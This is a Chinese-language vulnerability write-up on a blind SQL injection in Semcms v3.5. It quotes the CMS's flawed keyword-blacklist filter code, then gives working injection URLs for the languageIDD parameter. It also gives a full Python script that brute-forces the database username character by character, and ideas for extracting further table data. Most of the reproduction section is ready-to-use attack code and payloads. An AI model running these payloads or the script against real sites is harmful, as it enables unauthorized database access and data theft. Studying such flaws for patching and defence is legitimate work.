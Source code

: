 Semcms v3.5 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.5

三、复现过程
------------

### 漏洞分析

在分析过程中看到网上已经有人发现semcms
V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

    1 <?php
    2 include_once  'Include/web_inc.php';
    3 include_once  'Templete/default/Include/Function.php';
    4 $file_url="";
    5 include_once  'Templete/default/Include/default.php';
    6 ?>
     1 //网站logo
     2 
     3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
     4 
     5 // 控制文字标签 更改 获取的 语种 id
     6 
     7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
     8 
     9 if(!empty($Language)){
    10 
    11       //网站SEO设定
    12 
    13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
    14       $row=mysqli_fetch_array($query);
    15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
     1 // 防sql入注
     2 
     3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
     4  
     5 foreach ($GetArray as $value){ //get
     6     
     7     verify_str($value);
     8   
     9 }
    10 
    11 function inject_check_sql($sql_str) {
    12   
    13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
    14 } 
    15 
    16 function verify_str($str) { 
    17  
    18    if(inject_check_sql($str)) {
    19    
    20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
    21     } 
    22  
    23     return $str; 
    24 }
     1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
     2       $data = str_replace("<script", "", $data);
     3       $data = str_replace("</script>", "", $data);
     4       $data = str_replace("%", "percent", $data);
     5       $data = trim($data);
     6       $data = stripslashes($data);
     7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
     8       return $data;
     9 
    10    }

　　可以看到第16行的函数verify\_str()调用inject\_check\_sql()用来过滤危险字符，函数test\_input用来过滤xss。其中可以明显地看到第11行的函数inject\_check\_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常

![](./resource/Semcmsv3.5sql注入漏洞/media/rId26.png)

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误

![](./resource/Semcmsv3.5sql注入漏洞/media/rId27.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

    #用python3版本
    import requests
    url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
    print("Testing url: " + url)
    #十进制数33-126间的ascii hex值
    payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
                "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
                "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
                "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
                "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
                "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
                "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
                "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
                "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
                "0x7b","0x7c","0x7d"
               ]
    user = ""
    for b in range(len(payload)):
        for a in payload:
            #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
            sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
            res = requests.get(url + sql_payload_user).text
            res1 = requests.get(url).text
            if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
                user = user + a
                print(" ")
                print("[*]info : 0x" + user.replace("0x","").upper())
                break
            else:
                print('\r',"Match failed,Next.....",end='')

测试结果如下图

![](./resource/Semcmsv3.5sql注入漏洞/media/rId28.png)

解码ascii
hex值0x726F6F74406C6F63616C686F7374为root\@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

参考链接
--------

> <https://www.cnblogs.com/st404/p/10087191.html>
